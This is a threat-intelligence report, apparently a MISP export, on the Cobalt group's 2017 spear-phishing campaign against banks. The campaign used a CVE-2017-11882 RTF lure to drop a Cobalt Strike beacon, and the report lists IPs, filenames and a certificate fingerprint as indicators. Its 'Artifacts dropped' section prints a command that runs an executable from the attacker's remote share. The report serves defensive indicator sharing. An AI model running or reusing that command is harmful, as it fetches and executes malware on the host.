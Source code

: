 # Threat Report: 2017-12-04: OSINT - Gaffe Reveals Full List of Targets in Spear Phishing Attack Using Cobalt Strike Against Financial Institutions


## Key Intelligence
* Date: 2017-12-04
* Threat Level: 3 (Low)
* Tags: misp-galaxy:threat-actor="Cobalt", tlp:white, circl:topic="finance"

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* text: cmd /c start \\138.68.234.128\w\w.exe &AAAAAC

### External analysis
* link: https://www.riskiq.com/blog/labs/cobalt-strike/
* text: In a recent spear-phishing campaign, the Cobalt Hacking Group used a remote code execution vulnerability in Microsoft Office software to connect to its command and control server via Cobalt Strike. However, they gave up much more information than they intended.

On Tuesday, November 21, a massive spear-phishing campaign began targeting individual employees at various financial institutions, mostly in Russia and Turkey. Purporting to provide info on changes to â€˜SWIFTâ€™ terms, the email contained a single attachment with no text in the body.
* link: https://community.riskiq.com/projects/19bb67dd-2c51-7284-e5f2-7b79537e13d3

### Network activity
* ip-dst: 138.68.234.128 — Payload staging server
* ip-dst: 104.144.207.207 — Cobalt Strike server

### Payload delivery
* vulnerability: CVE-2017-11882
* x509-fingerprint-sha1: 6ece5ece4192683d2d84e25b0ba7e04f9cb7eb7c — At RiskIQ, one of the datasets built from our large quantities of Internet data is a repository of SSL certificates and where weâ€™ve seen them. Whatâ€™s interesting about the case mentioned above is that the host is using a certificate seemingly shipped with Cobalt Strike by default. We can look up the certificate in RiskIQ Community via its SHA1 fingerprint

## Objects
### file — File object describing a file with meta-information
* [Other] text: CVE-2017-11882 exploit document downloading Cobalt Strike beacon
* [Payload delivery] filename: Swift changes.rtf
* [Payload delivery] md5: <md5>
* [Other] text: Malicious

### file — File object describing a file with meta-information
* [Other] text: Cobalt Strike beacon
* [Payload delivery] filename: w.exe
* [Payload delivery] md5: <md5>
* [Other] text: Malicious
